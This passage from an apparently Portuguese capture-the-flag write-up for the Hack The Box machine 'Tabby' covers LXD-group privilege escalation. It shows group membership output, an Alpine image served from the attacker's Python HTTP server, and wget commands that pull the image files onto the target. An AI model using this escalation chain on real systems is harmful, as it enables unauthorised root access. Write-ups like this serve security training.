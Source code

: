 a flag de user


```bash
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

```bash
ash@tabby:~$ sudo -l
    sudo: unable to open /run/sudo/ts/ash: Read-only file system
    [sudo] password for ash: 
     Sorry, user ash may not run sudo on tabby.
```

Para o root está sendo mais dificil

encontrei este cara 

https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation

https://github.com/lxc/distrobuilder

ele monta um container, dentro da pasta que vc quiser e estipular no seu S.O e escala o privilégio montando um container dentro da maquina alvo, vou testar

basta seguir os passos certinho dessa doc ai que monta o container. Abre uma outra aba no terminal e deixa escutando o httpServer para transferir os arquivos

```bash
  ┌─[root@liquid]─[~/Desktop/HTB/tabby/lxd-alpine-builder]
    └──╼ #ls -l
    total 3180
    -rw-r--r-- 1 root root 3212312 Jun 21 22:04 alpine-v3.12-x86_64-20200621_2204.tar.gz
    -rwxr-xr-x 1 root root    7498 Jun 21 22:03 build-alpine
    -rw-r--r-- 1 root root   26530 Jun 21 22:03 LICENSE
    -rw-r--r-- 1 root root     768 Jun 21 22:03 README.md
    ┌─[✗]─[root@liquid]─[~/Desktop/HTB/tabby/lxd-alpine-builder]
    └──╼ #python -m SimpleHTTPServer 
    Serving HTTP on 0.0.0.0 port 8000 ...

< /pre>
```

```bash
ash@tabby:~$ wget http://10.10.14.29:8000/rootfs.squashfs
ash@tabby:~$ wget http://10.10.14.29:8000/lxd.tar.gz

O meu lxd.tar.gz ele veio com lxd.tar.xz

Eu dei um 'mv' e renomeei ele para 'gz', fiz com xz e deu erro.
```

Passei os arquivos da maquina para dentro da maquiina tabby, ele me gerou esses dois arquivos no caso 
```bash
lxd.tar.xz e rootfs.squashfs
```
